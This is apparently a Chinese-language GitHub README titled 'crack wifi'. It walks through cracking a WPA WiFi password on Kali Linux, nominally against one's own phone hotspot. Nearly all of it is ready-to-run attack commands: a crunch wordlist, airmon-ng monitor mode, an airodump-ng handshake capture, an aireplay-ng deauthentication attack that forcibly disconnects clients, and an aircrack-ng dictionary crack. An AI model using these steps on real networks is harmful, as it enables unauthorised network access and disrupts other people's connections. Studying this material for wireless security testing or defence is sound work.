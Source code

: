 # 破解-wifi
kali的小应用
# 要求:
    一台装有kali的电脑；
    一部手机，
    一个支持监控的无线网卡(一般笔记本都支持)；
    一个强大的字典；
    人需要有时间和耐心；
# 手机开热点，密码设纯数字8到10位
# 准备字典
    这里我们自己建一个简单字典来用会比较快，可以验证是否成功，
    先在/etc下创建一个字典，使用crunch命令创建
      `crunch 8 10 1234567890. -o /etc/zidian.txt`
# 首先断开连接的wifi
    在终端中执行：`airmon-ng`
# 开启无线网卡的监控模式
    `airmon-ng start wlan0`
    之后网卡接口会变成wlan0mon
# 查看wifi网络
    `airodump-ng wlan0mon`
    CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称
    按CTRL+C结束
# 抓取握手包
    目标路由CH号为 1 ，mac为 11：22：33：44：55：66
    命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon
    `airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon`
    成功后，按CTRL+C结束
# 等不到有人连WiFi，抓不到包，只能强制设备连接
    打开另一个终端，运行一下命令
    -0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 
    `aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon`
# 得到握手包后，可以关闭监控模式了
    `airmon-ng stop wlan0mon`
# 开始破解密码
    `aircrack-ng -w /etc/zidian.txt /etc/*.cap`

